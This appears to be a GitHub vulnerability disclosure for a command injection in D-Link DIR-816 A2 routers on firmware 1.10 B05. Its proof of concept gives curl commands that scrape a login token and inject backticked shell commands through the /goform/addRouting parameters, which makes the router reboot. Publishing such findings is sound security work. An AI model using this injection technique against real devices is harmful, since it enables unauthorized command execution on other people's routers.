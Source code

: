 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/
## detail description

An issue was discovered on D-Link DIR-816 A2 1.10 B05 devices. An HTTP request parameter is used in command string construction in the handler function of the /goform/addRouting route. This could lead to command injection via shell metacharacters in the gateway parameter.

## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/addRouting -d tokenid=1804289383 -d 'dest=`reboot`' -d 'hostnet=`reboot`' -d 'netmask=`reboot`' -d 'gateway=`reboot`' -d 'interface=`reboot`' -d 'custom_interface=`reboot`'
```

final,the route will reboot.

